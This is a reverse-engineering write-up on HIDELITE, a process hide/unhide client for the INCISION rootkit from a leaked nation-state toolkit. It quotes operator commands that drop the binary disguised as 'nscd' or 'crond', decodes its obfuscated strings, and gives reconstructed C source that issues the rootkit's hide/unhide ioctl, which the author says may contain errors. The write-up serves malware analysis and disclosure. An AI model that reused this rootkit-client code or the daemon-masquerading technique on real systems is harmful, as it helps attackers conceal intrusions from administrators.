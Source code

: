 # DITTELIGHT / DITTLELITE / HIDELITE

This tool can be used to unhide processes that were hidden using the INCISION rootkit. A noteable use of this tool is to unhide processes such that Oracle databases can be queried from the (previously hidden) process. The tool can also hide the process again.

In [the Oracle opscript](https://github.com/CybernetiX-S3C/EQGRP_Linux/blob/master/Linux/etc/oracle/opscript):
```
#########################################################################
# This is required for unhiding our processes on an INCISION box.	#
# Oracle requires that it see our processes when we query the database. #
#########################################################################
-put /current/up/hidelite.solaris.sparc $TMPDIR/nscd
```

The [HIDELITE user tool](https://github.com/CybernetiX-S3C/EQGRP_Linux/blob/master/Linux/doc/old/doc/user.tool.dittlelight_hidelite.COMMON) provides some usage examples:
```
-put /current/bin/hidelite.sparc crond

### run hidelite to unhide the callback window:
./crond -u -p NOPEN_CALLBACK_WINDOW_PID 

...

### To hide again
./crond -h -p NOPENPID
```

Hidelite needs to run in a window that is a direct child of PID 1. ([Source](https://github.com/CybernetiX-S3C/EQGRP_Linux/blob/master/Linux/doc/old/etc/user.mission.sicklestar.COMMON#L1181-L1182))


## Reverse Engineering HIDELITE

Since my SPARC assembly was non-existent before starting this reverse engineering quest, it was a fun and small binary to reverse. There might be some mistakes in the analysis and C code though. (Always check the disassembly yourself)

Interesting to note is that it uses the same kind of string obfuscation as [the PORK traffic](../implants/pork.md) over the wire does, only the value being multiplied with, is different (`0x1d`).

You can quickly dump the hidden strings used by HIDELITE using this one-liner:
```
$ cat hidelite.solaris | perl -nle 'print join "", map{ chr((ord()*29) & 0xff) } split //' | strings
S<T6
6YA<
`W @ZW 
jk (0k 
0 \#
jk (0k 
@n`t
8jk (0k 
/bin/sh
p:hu
%s invalid address
post: %s
ioctl error
exec failed: %s
post: %s
return code = %d
usage error
PS1=hidden: 
/proc/%05d
YYqv$
```

According to [the SICKLESTAR notes](https://github.com/CybernetiX-S3C/EQGRP_Linux/blob/master/Linux/doc/old/etc/user.mission.sicklestar.COMMON#L1180) the HIDELITE binary should contain INCISION keys. I was unable to find anything that looks like it (3 random looking 32-bit integers) but it could be the 64 bytes that I called "dunno" in my C code (that's the only place it would fit).

(Warning: People have reported sudden loss of eyesight when looking at the code. Proceed with caution.)
```c
#include<stdio.h>
#include<stdlib.h>
#include<stdint.h>

#include<sys/ioctl.h>
#include<string.h>
#include<unistd.h>
#include<fcntl.h>

/* In the original code it's not array but just loose strings */
uint8_t encrypted_strings[][50] = {
	"\xbb\x4a\xbd\xc6\xbb\xcf\x88", /* /bin/sh */
	"\x30\x02\x88\x39", /* p:hu */
	"\xa9\xcf\xa0\xbd\xc6\x6e\x15\x5c\xbd\xb4\xa0\x15\xb4\xb4\x9a\xe9\xcf\xcf\x12", /* %s invalid address\n */
	"\x30\xfb\xcf\x04\x02\xa0\xa9\xcf\x12", /* post: %s\n */
	"\xbd\xfb\x7f\x04\x5c\xa0\xe9\x9a\x9a\xfb\x9a\x12", /* ioctl error\n */
	"\xe9\xd8\xe9\x7f\xa0\x1e\x15\xbd\x5c\xe9\xb4\x02\xa0\xa9\xcf\x12", /* exec failed: %s\n */
	"\x30\xfb\xcf\x04\x02\xa0\xa9\xcf\x12", /* post: %s\n */
	"\x9a\xe9\x04\x39\x9a\xc6\xa0\x7f\xfb\xb4\xe9\xa0\xa1\xa0\xa9\xb4\x12", /* return code = %d\n */
	"\x39\xcf\x15\x53\xe9\xa0\xe9\x9a\x9a\xfb\x9a\x12", /* usage error\n */
	"\x90\x2f\x25\xa1\x88\xbd\xb4\xb4\xe9\xc6\x02\xa0", /* PS1=hidden: */
	"\xbb\x30\x9a\xfb\x7f\xbb\xa9\xf0\xf9\xb4" /* /proc/%05d */
};

void decrypt_str(uint8_t* str, uint32_t key);
uint32_t post(uint32_t pid, uint32_t bitmask, uint32_t fp_4ch);

int main(int argc, char** argv) {
	uint32_t bitmask, fp_m18h, unhide;
	uint32_t pid = bitmask = fp_m18h = unhide = 0;

	if(argc < 2) {
		decrypt_str(encrypted_strings[8], 0x1d);
		fprintf(stderr, encrypted_strings[8]);
		exit(1);
	}

	decrypt_str(encrypted_strings[1], 0x1d);
	int32_t c;
	while((c = getopt(argc, argv, encrypted_strings[1])) != -1) {
		switch(c) {
			case 'h':
				bitmask = bitmask | 0x40;
				break;
			case 'u':
				bitmask = bitmask | 0x80;
				unhide = 1;
				break;
			case 'p':
				pid = atoi(optarg);
				break;
			case 'r':
				bitmask = bitmask | 8;
				break;
		}
	}

	// 0x10c10
	bitmask = (bitmask & -3) | 4;
	uint32_t post_return_value = post(pid, bitmask, fp_m18h);
	if(post_return_value != 0) {
		if(post_return_value <= 0) { // 0x10c9c
			decrypt_str(encrypted_strings[4], 0x1d);
			fprintf(stderr, encrypted_strings[4]);
		} else { // 0x10c5c
			decrypt_str(encrypted_strings[3], 0x1d);
			fprintf(stdout, encrypted_strings[3], strerror(post_return_value));
		}
		exit(post_return_value);
	}
}

uint32_t post(uint32_t pid, uint32_t bitmask, uint32_t fp_4ch) {
	struct something {
		uint32_t i; // fp_m8ch; 
		uint32_t bitmask; // fp_m88h
		uint32_t pid; // fp_m84h
		uint32_t unknown; // fp_m80h
		uint32_t thirdarg; // fp_m7ch
		char buf[0x18]; // see bzero call
		char buf2[0x40]; // see bcopy
		uint32_t two; // fp_m20c
		uint32_t minus1; // fp_m1ch
		uint32_t* bitmaskagain; // fp_m18h
		uint32_t unknown2; 
		uint32_t fourty; // fp_m10h
		uint32_t fp_mch;
		
	};

	struct something huh;
	huh.i = 0;
	bzero(&huh.buf2, 0x54);
	const char dunno[0x40] = "\x01\x00\x00\x00\x01\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\xff\xfe\xf8\xa0\xff\xfe\xfe\x70\xff\xfe\xfd\xd0\xff\xfe\xfe\x70\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00";
	bcopy(dunno, &huh.buf2, 0x40); 
		// :> px 0x40 @ 0x21120
		// - offset -   0 1  2 3  4 5  6 7  8 9  A B  C D  E F  0123456789ABCDEF
		// 0x00021120  0100 0000 0100 0000 0000 0000 0000 0000  ................
		// 0x00021130  0000 0000 0000 0000 0000 0000 0000 0000  ................
		// 0x00021140  fffe f8a0 fffe fe70 fffe fdd0 fffe fe70  .......p.......p
		// 0x00021150  0000 0000 0000 0000 0000 0000 0000 0000  ................

	huh.two = 2;
	bzero(&huh.bitmask, 0x28);
	huh.minus1 = -1;
	huh.fourty = 0x28;
	huh.bitmaskagain = &huh.bitmask; // Maybe a ptr, maybe the val, my SPARC is weak
	huh.bitmask = huh.bitmask | bitmask;
	huh.pid = pid;
	huh.thirdarg = fp_4ch;
	
	/* It doesn't seem like this is being saved? */
	huh.bitmask & 8;
	huh.bitmask & 0x40;
	huh.bitmask & 0x80;
	huh.bitmask & 0x20;
	huh.bitmask & 0x10;

	char procself[64];
	decrypt_str(encrypted_strings[10], 0x1d);
	sprintf(procself, encrypted_strings[10], getpid());
	int fd = open(procself, 0); /* fd = fp_m8h */
	if(fd == -1) {
		decrypt_str(encrypted_strings[6], 0x1d);
		fprintf(stdout, encrypted_strings[6], strerror(0x454)); // "post: %s" == 0x20c
		return -1;
	}

	return ioctl(fd, 0x1c | 0x1de, (void*) &huh); // second arg: 478
}

void decrypt_str(uint8_t* str, uint32_t key) {
	while(*str != 0) {
		*str = (*str * key) & 0xff;
		str++;
	}
}

```
